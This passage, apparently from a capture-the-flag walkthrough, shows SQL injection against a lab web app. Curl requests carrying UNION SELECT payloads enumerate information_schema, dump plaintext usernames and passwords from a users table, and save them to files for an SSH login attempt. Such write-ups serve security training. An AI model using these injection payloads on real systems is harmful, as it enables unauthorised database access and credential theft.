 Next, I used a `UNION SELECT` to enumerate tables from `information_schema.tables`:

```shellscript
curl "http://192.168.1.20:8080/mercuryfacts/1%20UNION%20SELECT%20table_name%20FROM%20information_schema.tables--%20/"
```

This returned a list of tables, including `facts` and `users`.

Then, I enumerated columns from the `users` table:

```shellscript
curl "http://192.168.1.20:8080/mercuryfacts/1%20UNION%20SELECT%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%3D'users'--%20/"
```

Output: `Fact id: 1 UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'-- . (('Mercury does not have any moons or rings.',), ('id',), ('password',), ('username',))`
This revealed `id`, `password`, and `username` columns in the `users` table.

Finally, I extracted the usernames and passwords using `CONCAT`:

```shellscript
curl "http://192.168.1.20:8080/mercuryfacts/1%20UNION%20SELECT%20CONCAT(username,%20':',%20password)%20FROM%20users--%20/"
```

Output: `Fact id: 1 UNION SELECT CONCAT(username, ':', password) FROM users-- . (('Mercury does not have any moons or rings.',), ('john:johnny1987',), ('laura:lovemykids111',), ('sam:lovemybeer111',), ('webmaster:mercuryisthesizeof0.056Earths',))`

The following credentials were found:

- `john:johnny1987`
- `laura:lovemykids111`
- `sam:lovemybeer111`
- `webmaster:mercuryisthesizeof0.056Earths`


### SSH Access

I saved the extracted usernames and passwords to `users.txt` and `passwords.txt` respectively:

```shellscript
cat << 'EOF' > users.txt
john
laura
sam
webmaster
EOF

cat << 'EOF' > passwords.txt
johnny1987
lovemykids111
lovemybeer111
mercuryisthesizeof0.056Earths
EOF
```
